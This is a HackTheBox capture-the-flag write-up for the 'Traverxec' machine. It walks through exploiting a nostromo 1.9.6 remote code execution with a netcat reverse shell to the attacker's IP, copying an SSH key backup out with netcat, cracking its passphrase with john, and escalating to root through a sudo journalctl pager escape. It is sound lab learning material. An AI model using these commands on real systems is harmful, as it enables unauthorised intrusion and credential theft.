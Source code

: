 ```yaml
---
layout: post
title:  Traverxec
categories: hackthebox
tags: [hackthebox, linux, easy, nostromo, gtfobins]
---
```


![Traverxec](../../../../assets/images/hackthebox/traverxec/traverxec.jpg)

## abstract

Traverxec is an easy box made by [@jkr](https://twitter.com/ATeamJKR). It contains a nhttpd webserver also known as nostromo. 
The privesc from low privilege shell to user shell is an easy cracking challenge for john and for the privesc to root we need
some knowledge from gtfobins about _journalctl_ and _less_.

## enumeration

### nmap
The first step is to enumerate all open ports and determine the running services that are reachable from outside.
If we enumerate over all ports in verbose mode it took several minutes to get the result. So at first we should make 
quick scan and take all open ports to scan the service behind them.

```bash
Nmap scan report for 10.10.10.165
Host is up (0.029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.39 seconds
```

As the scan result we have an open ssh port and on port 80 is a http server running called nostromo in version 1.9.6.

### website
If we take a look on the website we may find something interesting. 
![website](../../../../assets/images/hackthebox/traverxec/website.jpg)

The first interesting thing could be the name **David White**. Maybe gobuster find something valuable.

```bash
kali@kali:~$ gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html | tee traverxec_gobuster.txt
```

Short answer: no.

I didn't know a web server called nostromo before. So the next obvious thing is to take some research for nostromo and a possible vulnerability for version 1.9.6.

Before I use google or something I use _searchsploit_ directly from shell, maybe the exploitdb know something.

```bash
Nostromo - Directory Traversal Remote Command Execution (Metasploit)    | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                  | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution    | exploits/linux/remote/35466.sh
```

What a lucky coincidence, nostromo in version 1.9.6 is vulnerable to a remote code execution. [exploitdb](https://www.exploit-db.com/exploits/47837)

## exploitation

The exploitation seems to be easy with the found python script. So let's create a reverse shell.

On the attacker machine:

```bash
nc -nlvp 1337
```

Send payload:
```bash
kali@kali:~$ python 47837.py 10.10.10.165 80 'nc -e /bin/sh 10.10.14.37 1337'
```

Aaaaaand BINGO, to have a more convenient low priv shell, we should use python on the victim machine:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
```

## userflag

Now we are on the victim machine. So let's take a look for valuable things. 

```bash
www-data@traverxec:/$ ls -l /home
ls -l /home
total 4
drwx--x--x 5 david david 4096 Apr 12 06:13 david 
```

The executive flag is set for others, very strange. 
Let's take a look further.

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

Nothing very useful on the first look. But let's read something about nostromo. If we are the user www-data and we are running this nostromo server. We need to have access to those homedirs.
Maybe let's try to access these in a kind of blind mode.

```bash
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www
ls -l /home/david/public_www
total 8
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www/protected-file-area 
total 4
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
```

It seems to work. So let's download these backup files.

```bash
On attacker machine:
kali@kali:~$ nc -l -p 1234 -q 1 > backup-ssh-identity-files.tgz < /dev/null

On victim machine:
nc 10.10.14.37 1234 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

Now extract and we have access to an encrypted ssh private key from david (/path/to/folder/home/david/.ssh/id_rsa).

The next step is to try john to crack this thing, but first it have to be converted in the right format.

```bash
# Convert ssh private key to john compatible hash
kali@kali:~$ python3 /usr/share/john/ssh2john id_rsa > key.hash

# attack the hash
kali@kali:~$ john --format=SSH -w /usr/share/wordlists/rockyou.txt

Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:00 DONE (2020-04-12 10:25) 20.00g/s 70920p/s 70920c/s 70920C/s paagal..sss
Session completed

kali@kali:~$ john --show key.hash
id_rsa:hunter

1 password hash cracked, 0 left
```

Now we can login as david@traverxec.htb and take the user.txt.

```bash
kali@kali:~$ ssh -i ./home/david/.ssh/id_rsa david@traverxec.htb
The authenticity of host 'traverxec.htb (traverxec.htb)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'traverxec.htb' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sun Apr 12 07:21:40 2020 from 10.10.14.21
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ wc user.txt 
 1  1 33 user.txt
```

## privilege escalation

At this point we have a valid ssh login to david@traverxec.htb. So let's find the privesc and root this machine.

```bash
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
new  server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems to be that david can gain root privileges if he use journalctl. So let's have a look at [gtfobins](https://gtfobins.github.io/gtfobins/journalctl/).

_Journalctl_ uses _less_ as default and this can be used to create a shell with higher permissions.

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
!/bin/bash
root@traverxec:/home/david/bin#
root@traverxec: wc /root/root.txt 
 1  1 33 user.txt
```

And that's it, system owned.